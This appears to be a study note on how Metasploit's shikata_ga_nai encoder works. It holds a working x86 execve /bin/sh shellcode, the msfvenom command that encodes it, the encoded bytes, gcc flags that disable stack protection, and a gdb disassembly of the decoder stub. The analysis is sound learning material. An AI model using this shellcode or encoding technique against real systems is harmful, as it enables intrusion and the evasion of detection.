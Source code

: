 # debugging shikata ga nai encoder
1. Execve() shellcode running /bin/sh:
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

2. Msfvenom encodes shellcode with shikata ga nai (one iteration):
echo -ne "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" | msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -p - 

"\xda\xc2\xd9\x74\x24\xf4\x58\x29\xc9\xbe\x45\x59\xe9\x68\xb1"
"\x07\x31\x70\x18\x83\xe8\xfc\x03\x70\x51\xbb\x1c\x59\x99\x6b"
"\xb7\xb5\x36\xff\x2f\xa2\x67\x9d\xc6\x5c\xfe\x82\x49\x28\xe2"
"\x16\xe3\xcb\x52\x93\x3e\x8b"

put this encoded into c wrapper then compile with gcc 

gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
<div>
gdb ./shellcode

(gdb) break *&code
Breakpoint 1 at 0x804a040
(gdb) r
Starting program: /SLAE/Shellcode/Metasploit/shell 
Shellcode Length:  52

Breakpoint 1, 0x0804a040 in code ()
(gdb) set disassembly-flavor intel
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x0804a040 <+0>:	fcmovb st,st(2)
   0x0804a042 <+2>:	fnstenv [esp-0xc]
   0x0804a046 <+6>:	pop    eax
   0x0804a047 <+7>:	sub    ecx,ecx
   0x0804a049 <+9>:	mov    esi,0x68e95945
   0x0804a04e <+14>:	mov    cl,0x7
   0x0804a050 <+16>:	xor    DWORD PTR [eax+0x18],esi
   0x0804a053 <+19>:	sub    eax,0xfffffffc
   0x0804a056 <+22>:	add    esi,DWORD PTR [eax+0x51]
   0x0804a059 <+25>:	mov    ebx,0x6b99591c
   0x0804a05e <+30>:	mov    bh,0xb5
   0x0804a060 <+32>:	jmp    FWORD PTR ss:[edi]
   0x0804a063 <+35>:	mov    ds:0x5cc69d67,al
   0x0804a068 <+40>:	inc    BYTE PTR [edx+0x16e22849]
   0x0804a06e <+46>:	jecxz  0x804a03b
   0x0804a070 <+48>:	push   edx
   0x0804a071 <+49>:	xchg   ebx,eax
   0x0804a072 <+50>:	mov    eax,DWORD PTR ds:[eax]
End of assembler dump.
</div>
